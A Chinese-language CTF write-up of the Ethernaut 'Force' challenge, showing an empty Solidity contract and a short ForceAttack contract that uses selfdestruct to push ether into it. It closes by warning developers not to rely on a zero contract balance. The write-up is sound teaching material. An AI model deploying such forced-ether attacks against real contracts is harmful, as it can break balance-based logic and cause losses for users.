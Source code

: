 # Force

## 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## 要求
使合约的余额大于0

## 分析
可以看到合约并没有实现`receive`或`fallback`,并不能收款.但是还有另一种情况:合约调用[selfdestruct](https://github.com/AmazingAng/WTF-Solidity/blob/main/26_DeleteContract/readme.md)时指定的地址会强制接收合约内的余额.

## 攻击步骤
1. 实现一个带有`selfdestruct`方法合约并指定销毁后接收地址.
2. 向合约转入ETH
3. 调用自毁函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    function attack(address payable _force) external {
        selfdestruct(_force);
    }

    receive() external payable {}
}
```

没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 `address(this).balance == 0` 之上.


